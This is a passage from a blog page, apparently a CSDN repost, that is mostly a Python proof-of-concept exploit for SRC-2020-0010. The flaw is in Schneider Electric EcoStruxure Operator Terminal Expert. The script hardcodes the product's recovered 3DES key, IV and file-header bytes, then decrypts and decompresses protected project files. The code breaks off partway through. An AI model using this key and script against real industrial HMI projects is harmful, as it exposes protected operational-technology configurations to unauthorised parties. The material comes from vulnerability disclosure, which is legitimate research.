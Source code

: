 https://blog.csdn.net/Scalzdp/article/details/133927363

### Schneider

src-2020-0010，poc:

```
#!/usr/bin/env python3
"""
Schneider Electric EcoStruxure Operator Terminal Expert Hardcoded Cryptographic Key Information Disclosure Vulnerability
SRC ....: SRC-2020-0010
CVE ....: N/A
File ...: EcoStruxure Operator Terminal Expert V3.1.iso
SHA1 ...: 386312d68ba5e6a98df24258f2fbcfb2d8c8521b
Download: https://download.schneider-electric.com/files?p_File_Name=EcoStruxure+Operator+Terminal+Expert+V3.1.iso
"""
import os
import re
import sys
import glob
import zlib
import zipfile
from Crypto.Cipher import DES3

# hardcoded values
key  = [ 202, 20, 221, 52, 225, 154, 5, 123, 111, 219, 11, 199, 145, 27, 200, 129, 254, 222, 253, 119, 213, 134, 72, 78 ]
iv   = [ 95, 21, 44, 250, 112, 73, 114, 155 ]
des3 = [ 93, 51, 117, 85, 189, 76, 88, 200, 231, 127 ]
plen  = 8

def check_equal(iterator):
   # if all the values are the same then its padding...
   return len(set(iterator)) <= 1

def _inflate(decoded_data):
    return zlib.decompress(decoded_data, -15)

def _deflate(string_val):
    compressed = zlib.compress(string_val)
    return compressed[2:-4]

def delete_folder(top) :
    for root, dirs, files in os.walk(top, topdown=False):
        for name in files:
            os.remove(os.path.join(root, name))
        for name in dirs:
            os.rmdir(os.path.join(root, name))
    os.rmdir(top)

def decrypt_file(filename):
    print("(+) unpacking: %s" % filename)
    decr = DES3.new(bytes(key), DES3.MODE_CBC, bytes(iv))
    default_data = bytes([8, 8, 8, 8, 8, 8, 8, 8])
    with open(filename, "rb") as f:
        if list(f.read(10)) == des3:
            encrypted = f.read()
            raw_data = decr.decrypt(encrypted)
            if not check_equal(list(raw_data)):
                raw_data = _inflate(raw_data)
        else:
            f.seek(0)
```